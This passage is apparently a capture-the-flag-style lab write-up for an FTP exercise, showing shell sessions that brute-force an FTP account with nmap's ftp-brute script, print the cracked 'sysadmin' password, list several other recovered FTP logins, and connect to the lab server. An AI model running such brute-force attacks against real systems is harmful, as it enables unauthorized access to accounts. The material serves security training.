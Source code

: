 3. Find the password of user “sysadmin” using nmap script.

**Answer:** `sysadmin:654321`

```bash
// create a files named users that stored "sysadmin" to import into the namp script

root@attackdefense:~# echo "sysadmin" > users
root@attackdefense:~# ls
README  tools  users  wordlists
root@attackdefense:~# cat users 
sysadmin
```

```bash
root@attackdefense:~# nmap --script ftp-brute --script-args userb=/root/users -p21 192.184.96.3 
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-27 02:29 UTC

root@attackdefense:~# nmap --script ftp-brute --script-args userdb=/root/users -p21 192.184.96.3 
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-27 02:29 UTC
Nmap scan report for target-1 (192.184.96.3)
Host is up (0.000045s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|_  Statistics: Performed 23 guesses in 6 seconds, average tps: 3.8
MAC Address: 02:42:C0:B8:60:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 5.56 seconds
```

> 4. Find seven flags hidden on the server.

> 📌 Login FTP:
>
> `sysadmin:654321` `rooty:qwerty` `demo:butterfly` `auditor:chocolate` `anon:purple` `cy` `diag:tigger`

<details><summary><code>sysadmin:654321</code></summary></details>

<details><summary><code>rooty:qwerty</code></summary></details>

<details><summary><code>demo:butterfly</code></summary></details>

<details><summary><code>auditor:chocolate</code></summary></details>

<details><summary><code>anon:purple</code></summary></details>

<details><summary><code>anon:purple</code></summary></details>

<details><summary><code>diag:tigger</code></summary></details>

```bash
root@attackdefense:~# ftp 192.184.96.3 
Connected to 192.184.96.3.
220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.184.96.3]
Name (192.184.96.3:root): sysadmin
331 Password required for sysadmin
Password:
230 User sysadmin logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 0        0              33 Nov 20  2018 secret.txt
226 Transfer complete
```